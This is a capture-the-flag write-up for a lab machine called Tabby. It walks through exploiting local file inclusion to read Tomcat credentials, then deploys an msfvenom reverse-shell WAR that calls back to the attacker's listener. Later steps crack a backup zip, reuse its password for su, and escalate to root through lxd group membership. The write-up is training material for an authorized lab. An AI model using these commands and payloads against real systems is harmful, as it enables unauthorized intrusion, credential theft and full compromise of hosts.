

Tabby

Recon
Starting with nmap. Three ports: SSH, a plain Apache on 80, and Apache Tomcat on 8080.
[Tabby] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap 10.129.27.193
Nmap scan report for 10.129.27.193
Host is up (0.22s latency).
Not shown: 65074 closed tcp ports (reset), 458 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open http Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe site on port 80 is a hosting company called "Mega Hosting". One of the links points at megahosting.htb, so I added it to /etc/hosts. Browsing the site, the news article link loads content through a file parameter:
http://megahosting.htb/news.php?file=statementA file= parameter that pulls a page off disk is the classic local file inclusion smell. Traversing out of the web root confirms it reads arbitrary files:
http://megahosting.htb/news.php?file=../../.././../../../etc/passwdExploitation
Port 8080 is Tomcat, and Tomcat keeps its manager credentials in tomcat-users.xml. On an Ubuntu package install that file lives under /usr/share/tomcat9/etc/, so I pointed the LFI straight at it:
http://megahosting.htb/news.php?file=../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xmlThe file comes back with a manager account defined:
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>The manager-script role is the one that matters. It grants access to the text-based manager app at /manager/text, which lets you deploy a WAR with a single authenticated request, no GUI CSRF token needed. I built a reverse-shell WAR with msfvenom:
[Tabby] msfvenom -p java/shell_reverse_tcp lhost=10.10.15.221 lport=4444 -f war -o pwn.warStart a listener, then upload and deploy the WAR under the path /foo. Requesting that path fires the payload:
[Tabby] curl -v -u tomcat:'$3cureP4s5w0rd123!' --upload-file pwn.war 'http://10.129.27.193:8080/manager/text/deploy?path=/foo&update=true'
[Tabby] curl http://10.129.27.193:8080/foo[Tabby] nc -lnvp 4444
Connection received on 10.129.27.193
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)Post Exploitation
Foothold as tomcat. Back in the web root there is a password-protected backup archive sitting next to the site files:
tomcat@tabby:~$ ls /var/www/html/files/
16162020_backup.zipI pulled it back to my box and ran zip2john to turn the archive into a crackable hash, then let john loose on it with rockyou:
[Tabby] zip2john 16162020_backup.zip > hash
[Tabby] john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
admin@it (16162020_backup.zip)
1g 0:00:00:00 DONE (2025-12-29 20:16) 1.639g/s ...
Session completedThe archive password is admin@it. There is a regular user ash on the box, and the same string works as her system password, so this is a straight su to the user flag:
tomcat@tabby:~$ su ash
Password: admin@it
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:~$ cat ~/user.txtPrivilege Escalation
The group list from id gives the escalation away: ash is in the lxd group. Membership in lxd is effectively root, because you can drive the container manager to mount the host filesystem read-write inside a privileged container that you fully control.
LXD needs a container image to launch. I built a minimal Alpine image on my own machine with saghul/lxd-alpine-builder, transferred the resulting tarball to the target, and imported it:
ash@tabby:~$ /snap/bin/lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892bWith the image in place, create a storage pool and a profile, then launch a container with security.privileged=true and the host root disk bind-mounted inside it:
ash@tabby:~$ /snap/bin/lxc storage create default dir
Storage pool default created
ash@tabby:~$ /snap/bin/lxc profile device add default root disk path=/ pool=default
Device root added to default
ash@tabby:~$ /snap/bin/lxc init myimage ignite -c security.privileged=true
Creating ignite
ash@tabby:~$ /snap/bin/lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ash@tabby:~$ /snap/bin/lxc start ignite
ash@tabby:~$ /snap/bin/lxc exec ignite /bin/shInside the privileged container the host filesystem is mounted at /mnt/root and, because the container runs as real root against the host, everything under it is fully readable. From there it is just reading the root flag:
# cat /mnt/root/root/root.txt